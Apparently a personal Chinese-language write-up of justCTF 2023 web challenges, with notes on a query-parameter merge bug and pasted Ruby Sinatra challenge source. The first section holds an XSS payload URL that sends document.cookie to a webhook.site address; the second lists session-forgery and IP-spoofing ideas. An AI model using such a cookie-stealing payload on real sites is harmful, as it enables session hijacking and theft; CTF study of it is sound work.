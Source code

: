 
# web
### eXtra Safe Security layers
#xss #js 
猜测原型链污染打xss
```js

//类似合并
	if (req.query.text) {
		res.user = { ...res.user, ...req.query };
	}
	
app.get("/", (req, res) => {
	res.render("index", { ...res.user });
});
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230604013940.png)

不会了 

---

*payload*
`http://xssl.web.jctf.pro/?text=hi&[unmodifiable][CSP]=a&[unmodifiable][background]=https://webhook.site/f202667e-9179-425d-80c1-fd62da5915d4?${document.cookie}`



### dangerous
#ruby #sinatra 

*source*
```ruby
require "sinatra"
require "sqlite3"
require "erubi"
require "digest"
require "json"

config = JSON.parse(File.read("./config.json"))

set :bind, '0.0.0.0'
enable :sessions
set :erb, :escape_html => true

con = SQLite3::Database.new "sqlite.db"

con.execute "CREATE TABLE IF NOT EXISTS threads(
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        content TEXT,
        ip TEXT,
        username TEXT
    );"

con.execute "CREATE TABLE IF NOT EXISTS replies(
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        content TEXT,
        ip TEXT,
        username TEXT,
        thread_id INTEGER
    );"

def get_threads(con)
  return con.execute("SELECT * FROM threads ORDER BY id DESC;")
end

def get_replies(con, id)
  return con.execute("SELECT *, null, 0 as p FROM threads WHERE id=? 
                    UNION SELECT *, 1 as p FROM replies WHERE thread_id=? order by p", [id, id])
end

def is_allowed_ip(username, ip, config)
  return config["mods"].any? {
    |mod| mod["username"] == username and mod["allowed_ip"] == ip
  }
end


get "/" do
  @threads = get_threads(con)
  erb :index
end

post "/thread" do
  if params[:content].nil? or params[:content] == "" then
    raise "Thread content cannot be empty!"
  end
  if session[:username] then
    username = is_allowed_ip(session[:username], request.ip, config) ? session[:username] : nil
  end
  # === temporarily disabled ===
  # con.execute("INSERT INTO threads (id, content, ip, username)
  #           VALUES (?, ?, ?, ?)", [nil, params[:content], request.ip, username])
  redirect to("/#{con.execute('SELECT last_insert_rowid()')[0][0]}")
end

get "/flag" do
  if !session[:username] then
    erb :login
  elsif !is_allowed_ip(session[:username], request.ip, config) then
    return [403, "You are connecting from untrusted IP!"]
  else
    return config["flag"] 
  end
end

post "/login" do
  if config["mods"].any? {
    |mod| mod["username"] == params[:username] and mod["password"] == params[:password]
  } then
    session[:username] = params[:username]
    redirect to("/flag")
  else
    return [403, "Incorrect credentials"]
  end
end

get "/:id" do
  @id = params[:id]
  @replies = get_replies(con, @id)
  erb :thread
end

post "/:id" do
  if params[:content].nil? or params[:content] == "" then
    raise "Reply content cannot be empty!"
  end
  if session[:username] then
    username = is_allowed_ip(session[:username], request.ip, config) ? session[:username] : nil
  end
  @id = params[:id]
  # === temporarily disabled ===
  # con.execute("INSERT INTO replies (id, content, ip, username, thread_id)
  #             VALUES (?, ?, ?, ?, ?)", [nil, params[:content], request.ip, username, @id])
  redirect to("/#{@id}")
end

```


- 伪造`session['username']`=admin
- 伪造ip为`127.0.0.1`

报错处可以看到`secretkey`,但是不会利用

---

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-06-03   17:31